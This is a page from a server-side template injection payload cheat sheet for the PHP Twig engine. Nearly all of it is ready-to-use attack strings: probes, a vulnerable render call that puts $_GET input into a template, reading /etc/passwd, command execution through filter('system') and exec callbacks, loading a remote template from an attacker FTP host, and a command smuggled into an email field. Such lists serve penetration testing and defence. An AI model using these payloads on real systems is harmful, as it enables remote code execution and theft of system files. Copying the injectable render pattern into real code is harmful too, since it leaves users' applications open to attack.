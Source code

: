 
## Twig

[Official website](https://twig.symfony.com/)
> Twig is a modern template engine for PHP.

### Twig - Basic injection

```python
{{7*7}}
{{7*'7'}} would result in 49
{{dump(app)}}
{{app.request.server.all|join(',')}}
```

### Twig - Template format

```python
$output = $twig > render (
  'Dear' . $_GET['custom_greeting'],
  array("first_name" => $user.first_name)
);

$output = $twig > render (
  "Dear {first_name}",
  array("first_name" => $user.first_name)
);
```

### Twig - Arbitrary File Reading

```python
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
```

### Twig - Code execution

```python
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
```

Example with an email passing FILTER_VALIDATE_EMAIL PHP.

```powershell
POST /subscribe?0=cat+/etc/passwd HTTP/1.1
email="{{app.request.query.filter(0,0,1024,{'options':'system'})}}"@attacker.tld
```

---
